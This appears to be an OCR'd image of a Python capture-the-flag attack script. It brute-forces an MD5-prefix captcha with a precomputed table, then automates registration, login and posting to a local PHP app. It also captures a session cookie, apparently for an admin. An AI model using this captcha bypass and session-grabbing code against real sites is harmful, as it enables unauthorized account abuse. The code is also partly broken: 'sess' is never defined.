 ```python
import re
import sys
import string
import random
import requests
import subprocess
from itertools import product
import hashlib
from itertools import product

_target = 'http://127.0.0.1:11027/'
_action = _target + 'index.php?action='

def get_code_dict():
    c = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$%^&*()-_ []{}<>~`+=,.;:/?|'
    captchas = [''.join(i) for i in product(c, repeat=3)]

    print('[+] Genering {} captchas...'.format(len(captchas)))
    with open('captchas.txt', 'w') as f:
        for k in captchas:
            f.write(hashlib.md5(k.encode('utf-8')).hexdigest()+' --> '+k+'\n')


def get_creds():
    username = ''.join(random.choice(string.ascii_lowercase + string.digits) for _ in range(10))
    password = ''.join(random.choice(string.ascii_lowercase + string.digits) for _ in range(10))
    return username, password

#code
def solve_code(html):
    code = re.search(r'Code\(substr\(md5\(\?\), 0, 5\) === ([0-9a-f]{5})\)', html).group(1)
    solution = subprocess.check_output(['grep', '^'+code, 'captchas.txt']).split()[2]
    return solution

def register(username, password):
    resp = sess.get(_action+'register')
    code = solve_code(resp.text)
    sess.post(_action+'register', data={'username':username,'password':password,'code':code})
    return True

def login(username, password):
    resp = sess.get(_action+'login')
    code = solve_code(resp.text)
    sess.post(_action+'login', data={'username':username,'password':password,'code':code})
    return True

def publish(sig, mood):
    return sess.post(_action+'publish', data={'signature':sig,'mood':mood})#, proxies={'http':'127.0.0.1:8080'})

def get_prc_now():
    # date_default_timezone_set("PRC") is not important
    return subprocess.check_output(['php', '-r', 'date_default_timezone_set("PRC"); echo time();'])

def get_admin_session():
    sess = requests.Session()
    resp = sess.get(_action+'login')
    code = solve_code(resp.text)
    return sess.cookies.get_dict()['PHPSESSID'], code

# get_code_dict()

```